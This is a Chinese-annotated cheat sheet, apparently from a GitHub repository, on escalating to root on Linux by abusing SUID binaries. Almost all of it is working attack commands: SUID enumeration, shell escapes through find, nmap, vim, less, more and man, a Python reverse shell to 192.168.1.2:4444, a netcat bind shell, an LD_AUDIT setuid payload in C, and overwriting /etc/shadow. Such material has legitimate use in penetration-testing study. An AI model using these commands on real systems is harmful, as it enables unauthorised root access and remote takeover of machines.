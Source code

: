 	查找有root权限的SUID文件
	$find / -perm -u=s -type f 2>/dev/null
	$find / -user root -perm -4000 -print 2>/dev/null
	$find / -user root -perm -4000 -exec ls -ldb {} \;
  ##### Find
	$touch xxx
	$/usr/bin/find xxx –exec whoami \;
	$/usr/bin/find xxx –exec python -c 'import 	socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  \;
	&
	>find xxx -exec netcat -lvp 12138 -e /bin/sh \; 然后攻击机主动连接
  ##### Ping
    >cd /tmp
    >mkdir exploit
    >ln /bin/ping /tmp/exploit/cmd
    >exec 3< /tmp/exploit/cmd
    >rm -rf /tmp/exploit/
    >vim payload.c
```c
void __attribute__((constructor)) init()  // 两个下划线
{
     setuid(0);
     system("/bin/bash");
}
```
    >gcc -W -fPIC -shared -o /tmp/exploit payload.c
    >提升到root权限
    >LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
    >id 查看当前权限
  ##### NMAP
	# 进入nmap的交互模式
	>nmap --interactive 
	>!sh
  ##### VIM
	>vim.tiny /etc/shadow
	&
	>vim.tiny
	# 按ESC
	:set shell=/bin/sh
	:shell
  ##### BASH
	>bash –p
  ##### More/Less/Man
	>less /etc/passwd
	!/bin/sh
	>more /etc/passwd
	!/bin/bash
	>man passwd
	!/bin/bash
  ##### CP/MV
	覆盖shadow文件
  ##### AutoSUID
  	https://github.com/IvanGlinkin/AutoSUID/
	自动收集 SUID 可执行文件并找到进一步提升权限的方法。100% 自动化。
	chmod +x AutoSUID.sh
	./AutoSUID.sh